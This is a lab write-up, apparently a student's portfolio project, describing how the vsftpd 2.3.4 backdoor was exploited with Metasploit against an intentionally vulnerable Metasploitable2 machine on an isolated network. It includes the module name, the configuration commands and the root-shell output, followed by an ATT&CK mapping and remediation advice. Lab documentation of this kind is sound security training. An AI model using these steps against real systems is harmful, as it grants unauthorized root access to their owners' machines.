




# Project 2: Metasploit Exploitation — Metasploitable2 (vsftpd 2.3.4 Backdoor)
 
> Exploited a known backdoor vulnerability found during reconnaissance to gain full root access, demonstrating the complete attack chain from discovery to exploitation.
 
## Summary
 
| | |
|---|---|
| **Goal** | Exploit a known backdoor vulnerability identified during reconnaissance (Project 1) to gain remote access |
| **Tools** | Metasploit Framework v6.4.146-dev, Kali Linux, Metasploitable2 |
| **Key result** | Full root access obtained with no privilege escalation required |
| **Skills shown** | Exploit selection and configuration, Metasploit usage, privilege verification, remediation planning |
 
## Objective
 
Exploit a known backdoor vulnerability identified during reconnaissance (Project 1) to gain remote access to the target machine, demonstrating the full attack chain from vulnerability discovery to exploitation.
 
## Environment
 
| Component | Details |
|-----------|---------|
| Attacker machine | Kali Linux (`192.168.56.10`) |
| Target machine | Metasploitable2 (`192.168.56.102`) |
| Network | Isolated host-only network, no internet access |
| Tool | Metasploit Framework v6.4.146-dev |
 
## Background
 
Project 1's Nmap scan identified vsftpd 2.3.4 running on port 21 (FTP). This version contains a publicly known backdoor (CVE-2011-2523) that was maliciously inserted into the source code and distributed for a period in 2011.
 
## Methodology
 
1. Launched Metasploit Framework:
```
   msfconsole
```
2. Searched for a matching exploit module:
```
   search vsftpd
```
   
3. Selected the module:
```
   use exploit/unix/ftp/vsftpd_234_backdoor
```
   
4. Configured the target and listener:
```
   set RHOST 192.168.56.102
   set LHOST 192.168.56.10
```
5. Executed the exploit:
```
   run
```
   
6. Confirmed access via a Meterpreter session, then dropped to a full shell.
7. Verified privilege level and system details.
   
 
## Results
 
- Exploit succeeded immediately; the backdoor spawned a listening shell.
- A Meterpreter session opened automatically.
- Verified access level:
```
  uid=0(root) gid=0(root)
  whoami → root
```
- Confirmed target system details:
```
  Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
  hostname: metasploitable
```
 
Full root access was obtained with no privilege escalation required — the backdoor itself executes commands as root.
 
## MITRE ATT&CK Mapping
 
| Activity | Technique |
|----------|-----------|
| vsftpd 2.3.4 backdoor exploit | T1190, Exploit Public-Facing Application |
| Root-level command execution | T1059, Command and Scripting Interpreter |
 
## Remediation
 
- Immediately remove or upgrade vsftpd to a current, official release.
- Verify software is downloaded only from official or verified sources.
- Implement file integrity monitoring to detect tampered binaries.
- Restrict FTP service exposure; disable it if not required.
## Lessons Learned
 
This project reinforced how a single outdated, compromised package can lead to complete system compromise with minimal effort. It also highlighted the direct link between reconnaissance findings (Project 1) and exploitation: the version banner from Nmap was the exact clue that led to this specific module.
 
## Disclaimer
 
All testing was performed against Metasploitable2, an intentionally vulnerable system, within an isolated lab environment owned by the author. No real-world systems were targeted.
